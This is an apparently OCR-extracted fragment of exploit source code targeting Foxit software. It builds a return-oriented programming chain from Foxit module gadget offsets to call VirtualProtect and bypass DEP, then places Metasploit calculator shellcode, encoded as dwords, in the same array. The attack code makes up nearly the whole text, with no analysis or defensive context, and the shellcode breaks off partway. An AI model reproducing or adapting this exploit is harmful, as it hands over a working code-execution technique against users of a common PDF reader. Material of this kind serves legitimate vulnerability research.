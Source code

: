     /* custom made ROP chain virtualalloc call
       Author: Manoj Ahuje  */

        claimed[0x00] = foxit_base + 0x01A65184; //# PUSH EAX # POP ESP # POP EDI # POP ESI # POP EBX # POP EBP # RETN
        claimed[0x01] = foxit_base + 0x01A65184;
        claimed[0x02] = foxit_base + 0x01A65184;
        claimed[0x03] = foxit_base + 0x01A65184;
        claimed[0x04] = foxit_base + 0x14f9195;  // # POP EBX # RETN
        claimed[0x05] = foxit_base + 0x41414141; //
        claimed[0x06] = foxit_base + 0x1f224fc;  // # ptr to &VirtualProtect()
            claimed[0x07] = foxit_base + 0x0e70281;  // # MOV ESI,DWORD PTR DS:[EBX] # RETN
            claimed[0x08] = foxit_base + 0x1582698;  // # POP EBP # RETN
            claimed[0x09] = foxit_base + 0xa0dbd;    // # & jmp esp
            claimed[0x0a] = foxit_base + 0x14ed06d;  // # POP EBX # RETN
            claimed[0x0b] = 0x00000201;              // # 0x00000201-> ebx
            claimed[0x0c] = foxit_base + 0x1e62f7e;  // # POP EDX # RETN
            claimed[0x0d] = 0x00000040;              // # 0x00000040-> edx
            claimed[0x0e] = foxit_base + 0x1ec06a9;  // # POP ECX # RETN
            claimed[0x0f] = foxit_base + 0x29bac74;  // # &Writable location
            claimed[0x10] = foxit_base + 0xb971f;    // # POP EDI # RETN
            claimed[0x11] = foxit_base + 0x177769e;  // # RETN (ROP NOP)
            claimed[0x12] = foxit_base + 0x1A89808;  // # POP EAX # RETN
            claimed[0x13] = 0x90909090;              // # nop
            claimed[0x14] = foxit_base + 0x129d4f0;  // # PUSHAD # RETN
        claimed[0x15] = 0x90909090;
        claimed[0x16] = 0x90909090;
        claimed[0x17] = 0x90909090;
        claimed[0x18] = 0x90909090;
        claimed[0x19] = 0x90909090;
        claimed[0x1a] = 0x90909090;

    //regular CALCULATOR shellcode from msf

            claimed[0x1b] = 0xe5d9e389;
            claimed[0x1c] = 0x5af473d9;
            claimed[0x1d] = 0x4a4a4a4a;
            claimed[0x1e] = 0x4a4a4a4a;
            claimed[0x1f] = 0x434a4a4a;
            claimed[0x20] = 0x43434343;
            claimed[0x21] = 0x59523743;
            claimed[0x22] = 0x5058416a;
            claimed[0x23] = 0x41304130;
            claimed[0x24] = 0x5141416b;
            claimed[0x25] = 0x32424132;
            claimed[0x26] = 0x42304242;
            claimed[0x27] = 0x58424142;
            claimed[0x28] = 0x42413850;
            claimed[0x29] = 0x49494a75;
            claimed[0x2a] = 0x4e586b6c;
            claimed[0x2b] = 0x57306362;
            claimed[0x2c] = 0x53707770;
            claimed[0x2d] = 0x6b696e50;
            claimed[0x2e] = 0x39716455;
            claimed[0x2f] = 0x6e645050;
            claimed[0x30] = 0x6470426b;
            claimed[0x31] = 0x434b6c70;
            claimed[0x32] = 0x6e6c3662;
            claimed[0x33] = 0x7562436b;
            claimed[0x34] = 0x526b6e44;
            claimed[0x35] = 0x46686452;
            claimed[0x36] = 0x5037386f;
            claimed[0x37] = 0x6446764a;
            claimed[0x38] = 0x4e4f4b71;
            claimed[0x39] = 0x354c774c;